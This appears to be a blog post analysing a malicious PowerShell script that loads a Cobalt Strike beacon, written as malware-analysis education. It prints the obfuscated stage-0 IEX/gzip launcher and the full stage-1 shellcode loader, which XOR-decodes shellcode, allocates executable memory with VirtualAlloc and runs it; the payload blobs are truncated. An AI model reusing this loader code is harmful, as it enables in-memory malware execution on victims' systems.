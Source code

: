 ```yaml
---
title: "Cobalt Strike Beacon Analysis"
categories:
  - Malware Analysis
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword in the realm of cybersecurity. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .align-center}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.png)](/assets/images/CobaltStrikeBeaconAnalysis1/2.png){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```